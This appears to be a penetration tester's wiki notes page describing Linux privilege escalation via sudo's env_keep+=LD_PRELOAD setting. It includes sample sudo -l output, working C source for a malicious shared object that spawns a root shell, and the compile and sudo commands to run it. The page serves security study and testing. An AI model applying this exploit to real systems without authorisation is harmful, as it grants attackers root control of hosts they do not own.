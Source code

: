 
## `LD_PRELOAD` Exploitation

If the [[situational-awareness#Current User's Allowed and Disallowed sudo Commands|current user's allowed sudo commands]] indicates that running `sudo` retains the environment variable [[LD_PRELOAD]], then you can use this environment variable to execute an arbitrary shared object file before the execution of one of the `sudo` command. This guarantees code execution as the target user of the `sudo` line.

### Process

1. Determine if running `sudo` retains the environment variable [[LD_PRELOAD]]

Note the following `sudo -l` output:

```bash
$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
```

The `env_keep+=LD_PRELOAD` statement is the indicator that running `sudo` retains the environment variable [[LD_PRELOAD]].

2. Stage the malicious shared object file. You can use the following source code for a shell:

```c
# tgihf.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>


void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Compile the source code with the following:

```bash
gcc -fPIC -shared -o tgihf.so tgihf.c -nostartfiles
```

3. Run one of the current user's allowed `sudo` commands, leveraging [[LD_PRELOAD]] to pre-execute the malcious shared object file.

```bash
sudo LD_PRELOAD=$FULL_PATH_TO_SHARED_LIBRARY $SUDO_COMMAND
```

